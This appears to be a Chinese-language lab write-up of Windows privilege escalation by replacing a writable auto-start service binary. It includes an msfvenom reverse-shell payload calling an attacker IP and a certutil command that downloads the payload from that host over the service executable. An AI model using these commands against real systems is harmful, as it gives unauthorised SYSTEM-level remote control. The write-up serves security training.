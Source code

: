 



使用wmic检索服务为auto时候发现

```
wmic service get name,displayname,pathname,startmode | findstr /i "auto"
```

在当前用户目录下发现一个veyon-service.exe

![image-20250310190110771](./PG_win.assets/image-20250310190110771.png)

检查文件权限，SYSTEM和administartor和目前用户都有完全控制权限(F)

```
icacls "C:\Users\Ela Arwel\Veyon\veyon-service.exe"
```

![image-20250310190557833](./PG_win.assets/image-20250310190557833.png)

其实我这里很好奇为什么这个服务就是高权限用户启动的，GPT给的解释是：

> **为什么是 `SYSTEM` 启动，而不是用户启动**：
>
> - 服务通常是由系统级账户（如 `SYSTEM` 或 `LocalService`）来启动，而不是由普通用户来启动。这是因为服务通常需要更高的权限来执行系统级操作。
> - **`SYSTEM`账户** 是 Windows 中权限最高的账户，能够访问系统的所有资源。因此，`veyon-service.exe` 是由 `SYSTEM` 启动的，通常是为了让该服务拥有系统级的权限执行特权任务。

使用msf生成反弹shell的exe文件

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.161 LPORT=80 -f exe -o reshell.exe   #生成exe
move veyon-service.exe veyon-service.bak    #一定要先把靶机上的veyon-service.exe重命名，直接覆盖或者删除都不行
certutil -f -urlcache http://192.168.45.161:90//reshell.exe veyon-service.exe
```
